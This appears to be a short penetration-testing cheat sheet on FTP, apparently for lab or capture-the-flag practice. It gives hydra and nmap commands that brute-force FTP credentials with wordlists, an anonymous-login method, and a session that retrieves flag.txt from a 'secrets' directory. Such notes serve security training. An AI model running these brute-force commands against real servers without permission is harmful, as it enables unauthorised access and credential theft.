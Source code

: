 # FTP

# Explanation

- FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client.

- It is also frequently used as a means of transferring files to and from the directory of a web server.

- FTP authentication requires a username and password combination. As a result, we can perform a brute-force attack on the FTP server in order to identify legitimate credentials.

- In some cases, FTP servers may be configured to allow anonymous access, which consequently allows anyone to access to the FTP server without providing any legitimate credentials.

# FTP brute force attack

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <target> -t 4 ftp
```

```
nmap --script ftp-brute --script-args userdb=/root/users.txt -p 21 <target>
```

# FTP anonymous login

```
ftp <target>
```

```
Name : anonymous
```

```
Password : ""
```

# FTP commands on Linux

```
ftp 192.213.157.3
```

```
ftp> help
```

```
ftp> ls
```

```
ftp> cd secrets
```

```
ftp> get flag.txt
```

```
ftp> bye
```